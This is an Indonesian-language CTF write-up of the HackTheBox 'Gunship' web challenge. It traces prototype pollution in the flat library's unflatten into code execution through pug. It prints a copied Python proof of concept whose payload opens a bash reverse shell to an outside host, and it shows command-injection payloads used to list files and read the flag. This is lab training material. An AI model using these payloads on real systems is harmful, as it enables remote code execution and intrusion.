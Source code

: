 ```yaml
---
title: "HackTheBox - Gunship"
date: 2023-12-29 07:18:00 +0700
categories: [HackTheBox, Challenges]
tags: [very easy, web]
---
```


**Gunship** ialah salah satu tantangan kategori web dari situs HackTheBox, Gunship ini sebenarnya tantangan lama tapi karena saya belum coba, jadi saya kerjakan aja. Ini perjalanan/panduan saya. Oh iya, disini kita akan mempelajari tentang exploit, burpsuite dll.

## Introduction

- Munculkan mesin, hahaha....
- Dan download file-nya

## Enumeration

Pertama-tama kita buka webnya dulu, dan analisis. Lihat dibagian bawah web, kita bisa inputkan sesuatu disitu. **"Who's your favourite artist?"**. Untuk menjawabnya, baca dulu bacaan dibagian atas. Jika kita input asal-asalan akan muncul teks **"Please provide us with the full name of an existing member."**.

Setelah baca yang diatas, terdapat dua nama, yaitu **Dan Haigh and Alex Westaway**. Nah, coba salah satu. Dan hasilnya **Hello guest, thank you for letting us know!**.

Hummm. Coba kita analisis file yang sudah didownload tadi. Nah setelah di ekstrak didalamnya ada banyak file, buka yang folder challenge. Di dalam direktori challenge kan ada flag, gak mungkin lah yaa menemukan flag semudah itu, coba baca flagnya **HTB{f4k3_fl4g_f0r_t3st1ng}**, sudah saya bilang `:)` bruhhhhh, coba analisis yang lain dahh. Nah ada yang menarik di bagian `package.json`.

```
{
	"name": "gunship",
	"version": "1.0.0",
	"description": "",
	"main": "index.js",
	"scripts": {
		"start": "node index.js",
		"dev": "nodemon .",
		"test": "echo \"Error: no test specified\" && exit 1"
	},
	"keywords": [],
	"authors": [
		"makelaris",
		"makelarisjr"
	],
	"dependencies": {
		"express": "^4.17.1",
		"flat": "5.0.0",
		"pug": "^3.0.0"
	}
}
```
{: file='package.json'}

Dibagian depedencies ada flat dan pug, hummm. Coba cari digoogle exploitnya, setelah saya cari kalau kerentanan dari flat itu kita bisa `prototype pollution` dan pug itu kita bisa `mengeksekusi kode`. Coba telusuri dan analisis file lainnya, masuk direktori routes baca index.js

```
const path              = require('path');
const express           = require('express');
const pug        		= require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
    const { artist } = unflatten(req.body);

	if (artist.name.includes('Haigh') || artist.name.includes('Westaway') || artist.name.includes('Gingell')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the full name of an existing member.'
		});
	}
});

module.exports = router;
```
{: file='routes/index.js'}

Humm, lihat dibagian router post, ada `unflatten` dan `pug.compile`. Coba cari digoogle lagi `:)`, untuk `pug.compile` tidak ada yang menarik, tapi untuk yang `unflatten` ini menarik, coba search `unflatten exploit` buka yang [hacktricks](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution), nah disitu ada bagian pug, analisis itu. Kita bisa copy dari bagian awal protoblock sampai selesai akhir protoblock.

```python
import requests

TARGET_URL = 'http://p6.is:3000'

# make pollution
requests.post(TARGET_URL + '/vulnerable', json = {
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/3333 0>&1'`)"
    }
})

# execute
requests.get(TARGET_URL)
```
```python
"__proto__.block": {
    "type": "Text", 
    "line": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/3333 0>&1'`)"
}
```

Sekarang buka burpsuite, jalan kan yang bagian input-an tadi, masukkan ke repeater burp. Nah di dalam bagian `execSync()` kita ubah jadi `'$(ls)'`, kita akan menampilkan filenya apa aja yang ada di situ. 

![Desktop View](/assets/img/hackthebox/challenges/include/Gunship-1.png){: .w-75}

Lihat hasilnya `/bin/sh: flagkmBDk: not found`, nah sekarang coba kita ganti `'$(cat flagkmBDk)'`

![Desktop View](/assets/img/hackthebox/challenges/include/Gunship-2.png){: .w-75}

*/bin/sh: HTB{f4k3_fl4g_f0r_t3st1ng}*

> kenapa kok fake flag? karena saya menjalankan yang file Docker, bukan yang dari HTB nya langsung.
{: .prompt-info}